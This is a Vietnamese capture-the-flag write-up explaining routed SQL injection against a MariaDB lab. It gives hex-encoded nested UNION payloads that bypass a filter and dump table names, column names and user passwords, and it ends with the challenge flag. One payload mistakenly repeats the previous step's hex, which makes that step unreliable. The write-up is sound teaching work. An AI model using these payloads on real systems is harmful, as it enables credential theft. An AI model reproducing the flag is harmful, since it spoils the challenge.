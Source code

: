 # SQL Injection - Routed

**Title**: Exploit my requests

**Point**: 35 Points

**Description**: Find the admin password.

## Solution: 

Bài này hơi dài, mình chia làm 2 phần:

<a href="#explain-and-analysis">1. Cho người newbie, cần giải thích</a>

<a href="#exploitation">2. Cho những người đã hiểu Routed SQLi và chỉ cần xem thẳng exploit</a>

### Explain and Analysis:

Chúng ta có một form đăng nhập như mọi lần

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161787127-6b0366e1-54b9-4850-81fc-60c3fdca89c7.png" > </p>

Tất nhiên, vẫn như mọi lúc nào, cái này chỉ để "bait" thôi 🙃. Nhập `'1` vào không có gì xảy ra, chỉ báo lỗi "Sai User hoặc Password". Tiếp theo chuyển qua Search box, nhập `'1` tiếp tục test: 

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161787720-0ad24b60-3c2c-42f4-9b02-d21e4a9fd0f0.png" > </p>

Kích lỗi lên thành công, xác định database là **MariaDB**. Giờ test một số ký tự và keyword để kiểm tra filter xí, sau một hồi test thì mình thấy có các filter sau:

Filter: `order` `and` `or` `,`  `"`. 

Với filter này mình có thể encode sang dạng **hex** để bypass.

Ồ kê, mấy cái checking cơ bản đã xong, giờ vào vấn đề chính. Đầu tiên, để hiểu kỹ các bạn nên xem tài liệu có sẵn của challenge (ngắn gọn và khá xúc tích) để hiểu **Route SQL** là gì: [Routed SQL Injection - Zenodermus Javanicus](https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Routed%20SQL%20Injection%20-%20Zenodermus%20Javanicus.txt) 

Đại khái, chúng ta có thể hiểu kiểu truy vấn kiểu **Route SQL** là như thế này. Nơi chúng ta có thể inject vào (trong trường hợp này) là trong mệnh đề **WHERE** như mọi khi, nhưng output của câu truy vấn không được thể hiện ra bên ngoài. Vậy nó chạy đi đâu ? Output đó tiếp tục được làm input tại mệnh đề WHERE ở câu truy vấn thứ 2 (một câu truy vấn hoàn toàn khác) rồi output của câu truy vấn thứ 2 này mới hiện lên trang web. Tham khảo hình sau:

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161792538-0671671a-66f3-4aae-83f9-63f40b1e2f9e.png" > </p>

> Lưu ý: Có ai thắc mắc ai viết code kiểu này thì chịu, nếu nghĩ nó chặn được SQLi thì nhầm to, xong chall sẽ thấy :))

Vậy nên bình thường chúng ta hay sử dụng `union select 'abc', 'xyz', '123', ... -- ` thì sẽ hiện ra **'abc', 'xyz', '123', ...**. Còn trường hợp này thì không hiện ra gì luôn. Thử payload:

```
' union select 1 -- 
```

<p align="center"> <img width=400 height=250 src="https://user-images.githubusercontent.com/48288606/161793129-1be05194-a47d-4a22-98e9-fb27bff4c026.png" > </p>

Thấy lạ chưa ! Ta thấy kết quả trả về có khoảng 3 trường (đoán), vậy mà mình select chỉ có 1 cột thôi mà vẫn cho đúng. Đó là vì cái select 1 của mình không đi vào câu truy vấn thứ 2 để xuất ra output. Vậy ý tưởng là gì? Giả sử chúng ta có câu truy vấn lồng vào nhau dạng vậy thì sao:

```
' union select "'union select 1, 2' -- " -- 
```

Đoạn truy vấn trên có ý nghĩa gì? Đi vào câu truy vấn đầu tiên, `'union select {payload} --` sẽ bypass được mệnh đề WHERE và trả về giá trị của select. Vì vậy tại đây chúng ta lồng thêm một cái `{payload}` cũng là dạng `union select {payload} -- ` thì chuỗi này sẽ là output của câu truy vấn đầu tiên và truyền vào mệnh đề WHERE của câu truy vấn thứ 2 và bypass nó luôn. Mình có thể thực hiện một truy vấn bất kỳ tại chỗ này, thay `select 1` thành select bất kỳ thứ gì mình thích. Ví dụ như payload vừa rồi, nhưng mình sẽ chuyển sang **hex form** để "thông chốt"

> Lưu ý: Để chuyển sang hex form cho nhanh với một chuỗi mong muốn, ta dùng hàm **HEX()** trên MariaDB cho nhanh. Sau khi chuỗi chuyển sang hex form thì không cần cặp ngoặc kép hay ngoặc đơn nữa.

<p align="center"> <img width=330 height=200 src="https://user-images.githubusercontent.com/48288606/161796330-69c07409-5555-41a6-8a4b-52726f45814f.png" > </p>

Payload injected to second query: `' union select 1, 2 -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C2032202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2032202D2D20 -- 
```

<p align="center"> <img width=600 height=200 src="https://user-images.githubusercontent.com/48288606/161796759-496cb615-f500-4160-9109-c3ee5580f1a6.png" > </p>

Trùng khớp số cột trả về luôn (2 cột), đồng thời giá trị trường đầu tiên hiển thị là đoạn ta inject vào **WHERE** trong câu truy vấn thứ 2 . Thử select `@@version` trên MariaDB:

Payload injected to second query: `' union select 1, @@version -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C20404076657273696F6E202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C20404076657273696F6E202D2D20  -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161798457-f3c64315-4b1e-483e-b9db-2e433e2599e5.png" > </p>

Mượt luôn. Xong 90% rồi, giờ thì mình khai thác như một bài bình thường thôi.

### Exploitation:

Tìm tên bảng:

Payload injected to second query: `' union select 1, group_concat(table_name) from information_schema.tables -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20 -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161799078-b7f4972a-4e9e-45c1-8066-0dbccf840cc5.png" > </p>

> Lưu ý: tên bảng thường được lưu ở dưới cùng, kéo thanh ribbon qua hết sẽ thấy.

Tìm ra tên bảng là `users`. Giờ tìm tên cột của bảng này:

Payload injected to second query: `' union select 1, group_concat(column_name) from information_schema.columns where table_name='users' -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E63617428636F6C756D6E5F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E636F6C756D6E73207768657265207461626C655F6E616D653D27757365727327202D2D20`

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E636174287461626C655F6E616D65292066726F6D20696E666F726D6174696F6E5F736368656D612E7461626C6573202D2D20 -- 
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161800087-c40d6c31-e513-43ae-a379-01d8eaafe9b0.png" > </p>

Lấy tất cả thông tin ra.

Payload injected to second query: `' union select 1, group_concat(id, ':', login, ':', password, ':', email) from users -- ` --> Hex form: `0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E6361742869642C20273A272C206C6F67696E2C20273A272C2070617373776F72642C20273A272C20656D61696C292066726F6D207573657273202D2D20 `

Payload: 
```
' union select 0x2720756E696F6E2073656C65637420312C2067726F75705F636F6E6361742869642C20273A272C206C6F67696E2C20273A272C2070617373776F72642C20273A272C20656D61696C292066726F6D207573657273202D2D20 --
```

<p align="center"> <img src="https://user-images.githubusercontent.com/48288606/161800984-29c0cbb6-37bc-4eca-a9d7-3059a301ffb1.png" > </p>

We've had it done !!! 🤪

> NOTE: Bản thân mình thấy bài này mang lại cách exploit mới, cần brainstorm tí. Nhưng mà có một điều mình không hiểu và đặt một câu hỏi lớn là AI LẠI CHƠI QUERY 2 LẦN THẾ NÀY? Mình thấy nó không thực tế lắm (' ~ '), ra để giải bài tập thì được

Flag: **qs89QdAs9A**
